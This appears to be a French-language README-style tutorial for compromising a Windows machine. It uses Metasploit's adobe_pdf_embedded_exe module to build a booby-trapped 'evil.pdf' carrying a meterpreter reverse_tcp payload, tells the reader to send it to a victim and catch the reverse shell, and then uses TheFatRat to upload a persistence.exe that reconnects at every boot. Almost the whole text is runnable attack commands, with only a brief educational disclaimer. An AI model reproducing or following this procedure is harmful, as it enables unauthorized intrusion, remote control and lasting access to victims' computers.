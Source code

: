 Pour effectuer une exploitation post-exploitation en utilisant la faille `adobe_pdf_embedded_exe` et utiliser FatRat pour maintenir l'accès post-exploitation, suivez les étapes ci-dessous. Ce guide est destiné à des fins éducatives uniquement. Assurez-vous d'avoir l'autorisation légale et éthique avant de tester ces techniques.

### Étapes pour l'exploitation avec `adobe_pdf_embedded_exe`

#### 1. Préparation de l'environnement

1. **Lancer Metasploit sur Kali Linux** :
   ```bash
   msfconsole
   ```

2. **Configurer le module `adobe_pdf_embedded_exe`** :
   - Utilisez le module `adobe_pdf_embedded_exe` :
     ```bash
     use exploit/windows/fileformat/adobe_pdf_embedded_exe
     ```

3. **Configurer les options nécessaires** :
   - Configurez le payload à utiliser (par exemple, `windows/meterpreter/reverse_tcp`) :
     ```bash
     set payload windows/meterpreter/reverse_tcp
     ```
   - Définissez l'adresse IP de votre machine Kali comme LHOST :
     ```bash
     set LHOST <Votre-IP-Kali>
     ```
   - Définissez le port à écouter (LPORT) :
     ```bash
     set LPORT 4444
     ```
   - Définissez le nom du fichier PDF :
     ```bash
     set FILENAME evil.pdf
     ```

4. **Générer le fichier PDF malveillant** :
   - Créez le fichier PDF malveillant :
     ```bash
     exploit
     ```

   Cela générera un fichier `evil.pdf` dans le répertoire `/root/.msf4/local/`.

#### 2. Livrer le fichier PDF à la cible

Envoyez le fichier `evil.pdf` à la victime par e-mail, par partage de fichiers, ou toute autre méthode de livraison.

#### 3. Configurer le handler Metasploit pour recevoir la connexion

1. **Configurer le handler** :
   - Ouvrez un nouveau terminal ou un nouvel onglet dans Metasploit.
   - Configurez un listener pour attendre la connexion inversée de la victime :
     ```bash
     use exploit/multi/handler
     set payload windows/meterpreter/reverse_tcp
     set LHOST <Votre-IP-Kali>
     set LPORT 4444
     exploit
     ```

2. **Attendre la connexion** :
   - Une fois que la victime ouvre le fichier `evil.pdf`, vous recevrez une session Meterpreter.

### Maintien de l'accès avec FatRat

FatRat est un outil pour générer des payloads malveillants et créer des exécutables post-exploitation.

#### 1. Installation de FatRat

1. **Cloner le dépôt FatRat** :
   ```bash
   git clone https://github.com/Screetsec/TheFatRat.git
   ```

2. **Naviguer dans le répertoire FatRat** :
   ```bash
   cd TheFatRat
   ```

3. **Exécuter le script d'installation** :
   ```bash
   sudo ./setup.sh
   ```

#### 2. Génération d'un payload avec FatRat

1. **Lancer FatRat** :
   ```bash
   sudo fatrat
   ```

2. **Choisir l'option pour générer un payload** :
   - Sélectionnez l'option 1 pour créer un payload avec Metasploit.

3. **Configurer les options du payload** :
   - Type de payload : `windows/meterpreter/reverse_tcp`
   - LHOST : Votre adresse IP Kali
   - LPORT : Port pour écouter (par exemple, 4444)
   - Nom du fichier : `persistence.exe`

4. **Construire le payload** :
   - Suivez les instructions pour générer le fichier `persistence.exe`.

#### 3. Mettre en place la persistance sur la machine cible

1. **Uploader le payload** :
   - Utilisez la session Meterpreter active pour uploader le payload généré :
     ```bash
     upload /path/to/persistence.exe C:\\Windows\\Temp\\persistence.exe
     ```

2. **Configurer la persistance** :
   - Utilisez la session Meterpreter pour ajouter le payload au démarrage de la machine cible :
     ```bash
     run persistence -X -i 10 -p 4444 -r <Votre-IP-Kali>
     ```

   Cette commande configure la persistance pour que le payload soit exécuté à chaque démarrage de la machine cible, se reconnectant à votre machine Kali.

### Vérification et monitoring

1. **Configurer le handler pour la persistance** :
   - Configurez un listener pour attendre les connexions persistantes :
     ```bash
     use exploit/multi/handler
     set payload windows/meterpreter/reverse_tcp
     set LHOST <Votre-IP-Kali>
     set LPORT 4444
     exploit
     ```

2. **Monitorer les connexions** :
   - Attendez que la machine cible redémarre et se reconnecte automatiquement.

### Conclusion

Ces étapes montrent comment utiliser `adobe_pdf_embedded_exe` pour initialement compromettre une machine, puis utiliser FatRat pour maintenir l'accès avec un payload persistant. Assurez-vous de toujours obtenir la permission légale avant de tester ces techniques sur un système, car elles peuvent causer des dommages et sont illégales sans autorisation.